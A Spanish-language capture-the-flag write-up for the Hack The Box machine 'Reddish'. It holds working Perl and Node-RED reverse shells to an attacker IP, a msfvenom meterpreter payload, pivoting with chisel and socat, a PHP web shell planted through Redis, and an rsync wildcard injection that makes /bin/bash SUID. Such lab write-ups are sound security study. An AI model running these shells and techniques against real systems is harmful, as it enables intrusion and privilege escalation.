## Box Info

| Name                  | Reddish          | 
| :-------------------- | ---------------: |
| Release Date          | 21 Jul, 2018     |
| OS                    | Linux            |
| Rated Difficulty      | Insane           |

## Recon

```zsh
sudo nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.10.94 -oG allPorts
```

Solo se encontro 1 puerto abierto 



```zsh
nmap -sCV -p 1880 10.10.10.94 -oN targeted
```

```r
# Nmap 7.95 scan initiated Wed Jun 18 19:42:30 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p 1880 -oN targeted 10.10.10.94
Nmap scan report for 10.10.10.94
Host is up (0.15s latency).

PORT     STATE SERVICE VERSION
1880/tcp open  http    Node.js Express framework
|_http-title: Error

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 18 19:42:47 2025 -- 1 IP address (1 host up) scanned in 16.69 seconds
```

### Web



Abrimos ese servicio web y encontramos un error, esto lo podemos resolver enviando un POST para ver que obtenemos. 

```zsh
curl --request POST "http://10.10.10.94/" | jq
```

Podemos ver que nos responde con un informacion en JSON.

```json
{
  "id": "4598d31cb6a767d6f93de51a67df4fa0",
  "ip": "::ffff:10.10.14.2",
  "path": "/red/{id}"
}
```

El JON especifica una ruta indicando un "id"


**Node-RED** es una herramienta de programación basada en flujo para conectar dispositivos IoT.



## Shell in Node-RED

Podemos crear nuestro propio flujo de diagrama, en este caso una reverse shell.



`TPC INPUT -> EXEC -> TCP OUTPUT` Una vez arrastramos los nodos, los configuramos.

- Tcp Output: Type `Connect to` 
 


- Tcp Output: Type ``Reply to TCP`



### Method 2 | Simple Command Shell

Pero en este caso, usaremos una revers shell en formato JSON para importarlo directamente a nuestro diagrama de flujo.

[Github - Node-Red-Reverse-Shell](https://github.com/valkyrix/Node-Red-Reverse-Shell/blob/master/node-red-reverse-shell.json)

```zsh
[{"id":"7235b2e6.4cdb9c","type":"tab","label":"Flow 1"},{"id":"d03f1ac0.886c28","type":"tcp out","z":"7235b2e6.4cdb9c","host":"","port":"","beserver":"reply","base64":false,"end":false,"name":"","x":786,"y":350,"wires":[]},{"id":"c14a4b00.271d28","type":"tcp in","z":"7235b2e6.4cdb9c","name":"","server":"client","host":"10.10.14.2","port":"9001","datamode":"stream","datatype":"buffer","newline":"","topic":"","base64":false,"x":281,"y":337,"wires":[["4750d7cd.3c6e88"]]},{"id":"4750d7cd.3c6e88","type":"exec","z":"7235b2e6.4cdb9c","command":"","addpay":true,"append":"","useSpawn":"false","timer":"","oldrc":false,"name":"","x":517,"y":362.5,"wires":[["d03f1ac0.886c28"],["d03f1ac0.886c28"],["d03f1ac0.886c28"]]}]
```

Import -> Clipboard






Importamos y ejecutamos el diagrama de flujo y obtendremos una shell.



Tenemos la IP `172.19.0.3` y la IP `172.18.0.2`



### Perl

Al enumerar la máquina, descubrí que no tiene `Python, Python3, Netcat (nc), PHP` o ifconfig, pero sí tiene Perl.


Como no puedo usar comandos que me permitan seguir enumerando, con el uso de perl obtendre una shell interactiva con perl.

```perl
perl -e 'use Socket;$i="10.10.14.2";$p=9002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

Se puede hacer de 2 maneras:
- **Ejecutar mediante el Flujo de Diagrama (EXEC Node).**
- **Ejecutar directamente el script en perl con la shell no interactiva.**



## Node-Red - Container

Una vez obtenido la shell interactiva, podemos darnos cuenta que somos root. Dado que esta máquina carece de herramientas esenciales como Python o Netcat (nc), y su IP no coincide con 10.10.10.94, puedo deducir que estamos dentro de un contenedor.



Para confirmar podemos utilizar ip a para ver las interfaces de red

```zsh
ip a
```

```zsh
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
11: eth0@if12: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
19: eth1@if20: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.4/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
```

#### Enumeration

```zsh
find \-name *config* 2>/dev/null
```

```zsh
find . -type f 
```

Enumeramos pero no se encontro nada interesante

### Network Enumeration

#### Check ARP

Podemos listar el ARP que nos permite vizualizar direcciones IP, direcciones MAC y la interfaz de red correspondiente.

```bash
cat /proc/net/arp
```

```zsh
IP address       HW type     Flags       HW address            Mask     Device
172.18.0.1       0x1         0x2         02:42:de:ac:1d:ce     *        eth0
```

### Ping Sweep

Utilicé este script para el barrido de ping para buscar otros hosts/contenedores y enumerar todas las IP en el rango de subred 172.19.0.0/24.

```zsh
for i in {1..255};do (ping -c 1 172.18.0.$i|grep "bytes from"|cut -d' ' -f4|tr -d ':' &);done
```

```r
172.18.0.1 <-- Host
172.18.0.2 <-- nodered container
----------
172.19.0.1 <-- Host
172.19.0.2
172.19.0.3 <-- nodered container
172.19.0.4
```



```sh
#!/bin/bash

hosts=("172.18.0.1" "172.19.0.1" "172.19.0.2" "172.19.0.3" "172.19.0.4")

for host in ${hosts[@]}; do
        echo -e "\n[+]Scanning ports in $host\n"
        for port in $(seq 1 10000); do
                timeout 1 bash -c "echo '' > /dev/tcp/$host/$port" 2> /dev/null && echo -e "\t[+] Port: $port - OPEN!" &
        done; wait
done
```

`base64 -w 0 portScan.sh`

```bash
echo "IyEvYmluL2Jhc2gKCmhvc3RzPSgiMTcyLjE4LjAuMSIgIjE3Mi4xOS4wLjEiICIxNzIuMTkuMC4yIiAiMTcyLjE5LjAuMyIpCgpmb3IgaG9zdCBpbiAke2hvc3RzW0BdfTsgZG8KICAgICAgICBlY2hvIC1lICJcblsrXVNjYW5uaW5nIHBvcnRzIGluICRob3N0XG4iCiAgICAgICAgZm9yIHBvcnQgaW4gJChzZXEgMSAxMDAwMCk7IGRvCiAgICAgICAgICAgICAgICB0aW1lb3V0IDEgYmFzaCAtYyAiZWNobyAnJyA+IC9kZXYvdGNwLyRob3N0LyRwb3J0IiAyPiAvZGV2L251bGwgJiYgZWNobyAtZSAiXHRbKl0gUHVlcnRvOiAkcG9ydCAtIEFCSUVSVE8gWypdIiAmCiAgICAgICAgZG9uZTsgd2FpdApkb25lCg==" | base64 -d > portScan.sh
```

```zsh
./portScan.sh

[+]Scanning ports in 172.18.0.1

 [+] Port: 1880 - OPEN! [PortForwarding HOST]

[+]Scanning ports in 172.19.0.1


[+]Scanning ports in 172.19.0.2

 [+] Port: 6379 - OPEN! [Interesting]

[+]Scanning ports in 172.19.0.3

 [+] Port: 1880 - OPEN! 
 
[+]Scanning ports in 172.19.0.4

 [+] Port: 80 - OPEN! [Interesting]
```

Ese 1880 es el puerto reenviado a la máquina virtual nodered.

## Pivoting

**Hay varias maneras de realizar pivoteo (movimiento lateral)**

1. **Usando Meterpreter:**
    
	- Obtener una session meterpreter en NodeRed.
    
    - Con el comando `portfwd` en meterpreter podemos crear un tunel desde mi maquina local a la maquina victima(similar a un SSH Tunnel)
        
2. **Creación de una interfaz de escucha web con Node-RED:**
    
    - Configurar un flujo en Node-RED para redirigir (tunelizar) el tráfico entre redes.
        
3. **Usar herramientas de Tunneling:**
    
    - **Chisel:** Herramienta para crear túneles TCP/UDP rápidos y sigilosos.
        
    - **Socat:** Versátil para redirección de conexión.

- Ahora reduciremos el peso de chisel para poder hacer una transferencia del chisel mas rapido. 

```zsh
du -hc chiselNew
9.0M    chiselNew
9.0M    total
```

```zsh
upx chiselNew
```

```zsh
du -hc chiselNew
3.6M    chiselNew
3.6M    total
```

- Transfer Chisel (netcat y tcp)

```zsh
nc -nlvp 444 < chiselNew
```

```zsh
cat > chiselNew < /dev/tcp/10.10.14.2/444
```

`check with md5sum`

```zsh
md5sum chiselNew
391b424188f9b3567556d02a63f3a908  chiselNew
```

#### Method 2 (Transfer File)

>Tip:  Algunas maquinas no tienen herramientas para transferir archivos y esta utilidad sirve para esos casos, haciendo uso del tcp y definiendo una funcion.

```zsh
function __curl() {
  read -r proto server path <<<"$(printf '%s' "${1//// }")"
  if [ "$proto" != "http:" ]; then
    printf >&2 "sorry, %s supports only http\n" "${FUNCNAME[0]}"
    return 1
  fi
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [ "${HOST}" = "${PORT}" ] && PORT=80

  exec 3<>"/dev/tcp/${HOST}/$PORT"
  printf 'GET %s HTTP/1.0\r\nHost: %s\r\n\r\n' "${DOC}" "${HOST}" >&3
  (while read -r line; do
   [ "$line" = $'\r' ] && break
  done && cat) <&3
  exec 3>&-
}
```

[How to download a file using just bash and nothing else no curl wget perl etc](https://unix.stackexchange.com/questions/83926/how-to-download-a-file-using-just-bash-and-nothing-else-no-curl-wget-perl-et)

- Curl Function

```bash
__curl http://10.10.14.2:8080/chiselNew > chisel
```

Podemos verificar la transferencia si fue correcta con md5

![[Pasted image 20250619161219.png]]

### Chisel (Adding Forwards)

- NodeRed Container

```zsh
./chisel client 10.10.14.2:1234 R:80:172.19.0.4:80 R:6379:172.19.0.2:6379
```

- Kali

```zsh
./chiselNew server --reverse -p 1234
```


```zsh
sudo nmap -sCV -p 80,6379 127.0.0.1 -oN localScan
```

```zsh
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000045s latency).

PORT     STATE SERVICE    VERSION
80/tcp   open  tcpwrapped
6379/tcp open  tcpwrapped
```




### Metasploit (Port Forwarding)

Como no obtengo ninguna información con Nmap mientras hago el reenvío de puertos con Chisel, intentaré hacerlo con Metasploit para ver si puedo obtener alguna información.

```zsh
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=445 -f elf -o shell.elf
```

```zsh
nc -nlvp 444 < shell.elf
```

```zsh
cat > shell.elf < /dev/tcp/10.10.14.2/444
```

- PortForwarding



- Enumeration with Nmap

```zsh
nmap -p- -sT -sCV --min-rate 5000 127.0.0.1
```

Ahora con metasploit puedo ver la versión de redis.



- Searchsploit

Quizás podríamos usar el RCE para obtener un shell, pero me gusta aventurarme/explorar (otros métodos).



## Redis Containers - (Web)

### Web Site

- 172.19.0.4 -> 80 -> 127.0.0.1

`http://127.0.0.1/`



- View Page Source

Al revisar el código fuente, podemos ver un código JavaScript interesante.

```javascript
<html xmlns="http://www.w3.org/1999/xhtml">
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>
        <title>Reddish</title>
        <script src="assets/jquery.js" type="text/javascript"></script>
        <script type="text/javascript">
						$(document).ready(function () {
								incrCounter();
						    getData();
						});

						function getData() {
						    $.ajax({
						        url: "8924d0549008565c554f8128cd11fda4/ajax.php?test=get hits",
						        cache: false,
						        dataType: "text",
						        success: function (data) {
											console.log("Number of hits:", data)
						        },
						        error: function () {
						        }
						    });
						}

						function incrCounter() {
						    $.ajax({
						        url: "8924d0549008565c554f8128cd11fda4/ajax.php?test=incr hits",
						        cache: false,
						        dataType: "text",
						        success: function (data) {
				              console.log("HITS incremented:", data);
						        },
						        error: function () {
						        }
						    });
						}

						/*
							* TODO
							*
							* 1. Share the web folder with the database container (Done)
							* 2. Add here the code to backup databases in /f187a0ec71ce99642e4f0afbd441a68b folder
							* ...Still don't know how to complete it...
						*/
						function backupDatabase() {
								$.ajax({
										url: "8924d0549008565c554f8128cd11fda4/ajax.php?backup=...",
										cache: false,
										dataType: "text",
										success: function (data) {
											console.log("Database saved:", data);
										},
										error: function () {
										}
								});
						}
		</script>
    </head>
    <body><h1>It works!</h1>
    <p>This is the default web page for this server.</p>
    <p>The web server software is running but no content has been added, yet.</p>
    </body>
</html>
```

Hay llamadas AJAX a la URL 8924d0549008565c554f8128cd11fda4/ llamada backupDatabase. Además, comparten una ruta en los comentarios. Puedo suponer que estas rutas y comandos se ejecutan en la base de datos de Redis.

- Reviewing the path's of source code

```zsh
http://127.0.0.1/f187a0ec71ce99642e4f0afbd441a68b/
```



La ruta existe y, además, al utilizar el comando de copia de seguridad mencionado anteriormente, la salida indica que no se encontró ajax.php, lo que indica que aún no se ha implementado.

```zsh
http://127.0.0.1/f187a0ec71ce99642e4f0afbd441a68b/ajax.php?backup=/etc/passwd
```



### DataBase

Mientras buscaba **Redis 4.0.9** en Google, encontré que **HackTricks** tiene un manual de enumeración para ello.

- basic enumeration with nc

[Pentesting Redis](https://book.hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html?highlight=redis#manual-enumeration)

```zsh
nc -vn 127.0.0.1 6379
```

`info`



`info keyspace`



`keys *`


Encontramos una clave llamada _"hits"_ que hace referencia al código fuente que descubrimos en la página web 172.19.0.4. De alguna manera, está relacionada con este servicio web (`172.19.0.2 --related--> 172.19.0.4). Cada vez que recargaba la página, el contador de visitas aumentaba, como se define en el código fuente.



### WebShell




[Redis-Hacking-Tips](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html)

```bash


<?php
	system($_REQUEST['cmd']);
?>


```

>Tip: Es necesario insertar 3 saltos de línea para no insertar etiquetas y no dañar el archivo.

```zsh
cat cmd.php | redis-cli -h 127.0.0.1 -x set reverse
```

```zsh
redis-cli -h 127.0.0.1 config set dir /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/
```

```zsh
redis-cli -h 127.0.0.1 config set dbfilename "cmd.php"
```

### Script Redis WebShell



Parece que hay un script que elimina el archivo .php, por lo que creamos un script para automatizar la carga webshell.

```zsh
#!/bin/bash

cat cmd.php | redis-cli -h 127.0.0.1 -x set reverse
redis-cli -h 127.0.0.1 config set dir /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/
redis-cli -h 127.0.0.1 config set dbfilename "cmd.php"
redis-cli -h 127.0.0.1 save
```

```url
http://127.0.0.1/f187a0ec71ce99642e4f0afbd441a68b/cmd.php?cmd=whoami
```



Lo intenté con una reverse shell pero no funcionó, así que intenté con ping y me respondio "Operación no permitida" que indica que no tenemos suficientes permisos.

```zsh
ping -c 1 10.10.14.2 2%3E%261
```


```r
172.18.0.1 <-- Host
172.18.0.2 <-- nodered container [PWNED]
----------
172.19.0.1 <-- Host
172.19.0.2 <-- DB
172.19.0.3 <-- nodered container [PWNED]
172.19.0.4 <-- (www) Web [PWNED]
```

## Socat - File Upload to Web

- Socat in the background

```zsh
./socat TCP-LISTEN:1111,fork TCP:10.10.14.2:2222 &
```



Re-run chisel commands

Identificamos si tiene perl para re-hacer la misma tecnica anterior, para ejecutar una reverse shell con perl.



Una vez que podemos ejecutar perl podemos ejecutar una shell inversa al 172.19.0.3.

```perl
perl -e 'use Socket;$i="172.19.0.3";$p=1111;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

>Tip: Url-encodea la reverse shell en perl

## Privesc 

### Identifying Backup Cron


Ahora tenemos una shell en 172.19.0.3.



```
bergamotto
somaro
```

Encontramos que hay un Segmento B (división de una red más grande en secciones más pequeñas)



Podemos ver la flag del usuario somaro.

```
find / -name "user.txt" 2>/dev/null
```



Con `ps aux` podemos ver los servicios ejecutados en este caso de root ejecutnado una tarea cron



```bash
#!/bin/bash

IFS=$'\n'

old=$(ps -eo command)
while true; do
    new=$(ps -eo command)
    diff <(echo "$old") <(echo "$new") | grep [\<\>]
    sleep .3
    old=$new
done
```

```
base64 -w 0 procmon.sh
```

`172.19.0.4`

```
echo "IyEvYmluL2Jhc2gKCklGUz0kJ1xuJwoKb2xkPSQocHMgLWVvIGNvbW1hbmQpCndoaWxlIHRydWU7IGRvCiAgICBuZXc9JChwcyAtZW8gY29tbWFuZCkKICAgIGRpZmYgPChlY2hvICIkb2xkIikgPChlY2hvICIkbmV3IikgfCBncmVwIFtcPFw+XQogICAgc2xlZXAgLjMKICAgIG9sZD0kbmV3CmRvbmUKCg==" | base64 -d > procmon.sh
```



```
/usr/sbin/CRON
> /bin/sh -c sh /backup/backup.sh
> sh /backup/backup.sh
> rsync -a rsync://backup:873/src/backup/ /var/www/html/
< /usr/sbin/CRON
< /bin/sh -c sh /backup/backup.sh
< sh /backup/backup.sh
< rsync -a rsync://backup:873/src/backup/ /var/www/html/
```

cat /backup/backup.sh

```bash
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
```

### WildCards



Crearemos 2 archivos con los siguientes nombres:

```
-e sh test.rdb
test.rdb
```

El archivo test.rdb contendra lo siguiente:

```zsh
#!/bin/bash

chmod u+s /bin/bash
```

```
 base64 -w 0 test.rdb
```

```bash
echo IyEvYmluL2Jhc2gKCmNobW9kIHUrcyAvYmluL2Jhc2gK | base64 -d > test.rdb
```

```bash
touch -- '-e sh test.rdb'
```

